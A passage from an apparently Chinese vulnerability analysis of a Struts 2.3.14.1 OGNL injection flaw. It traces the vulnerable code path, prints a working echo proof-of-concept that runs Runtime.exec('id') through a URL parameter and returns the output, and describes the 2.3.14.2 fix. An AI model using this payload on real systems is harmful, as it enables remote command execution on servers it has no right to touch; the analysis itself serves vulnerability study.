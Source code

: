 下面使用`Struts 2.3.14.1`自带的示例程序`struts-blank`来调试分析。运行应用之前得修改一下首页`index.jsp`，在`<s:url>`和`<s:a>`标签中添加`includeParams="all"`，如下图：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6cdebe714d51dcf0446a2c2357aebc9aa534272a.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6cdebe714d51dcf0446a2c2357aebc9aa534272a.png)

跟之前`S2-001`一样，找到`<s:url>`对应的类`URLTag`，在`doEndTag()`方法中下断点进行调试。

在关键的地方，即执行OGNL表达式计算的类和方法，比如`OgnlValueStack#findValue()`下断点，一路跟下去，发现在处理url参数的过程中，`DefaultUrlHelper#buildParameterSubstring()`会调用`TextParseUtil#translateVariables()`，如下图：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1d7ed1ef5285211227859d062d19c94a63ea51bb.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-1d7ed1ef5285211227859d062d19c94a63ea51bb.png)

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-25c13a5d117311644c295830989db05ac81be090.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-25c13a5d117311644c295830989db05ac81be090.png)

后面的漏洞触发流程就跟`S2-012`一样了。所以这个漏洞其实没什么值得说道的地方，因为跟之前出现的漏洞类似。

### 可回显PoC

```php
/xxx.action?fakeParam=
%{#_memberAccess.allowStaticMethodAccess=true,
#context['xwork.MethodAccessor.denyMethodExecution']=false,
#is=@java.lang.Runtime@getRuntime().exec('id').getInputStream(),
#br=new java.io.BufferedReader(new java.io.InputStreamReader(#is)),
#res=new char[20000],
#br.read(#res),
#writer=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),
#writer.println(new java.lang.String(#res)),
#writer.flush(),
#writer.close()}
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-017187a8ac5d082b278fc009c02556c8476603a5.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-017187a8ac5d082b278fc009c02556c8476603a5.png)

漏洞修复
----

在Struts2的`2.3.14.2`版本中，`DefaultUrlHelper#buildParameterSubstring()`没有再调用`TextParseUtil.translateVariables()`对参数进行处理了。如下图：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-61d08ea715a341948ea03e5f16a82964aac3a5b1.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-61d08ea715a341948ea03e5f16a82964aac3a5b1.png)

S2-015
------

官方漏洞公告：<https://cwiki.apache.org/confluence/display/WW/S2-015>
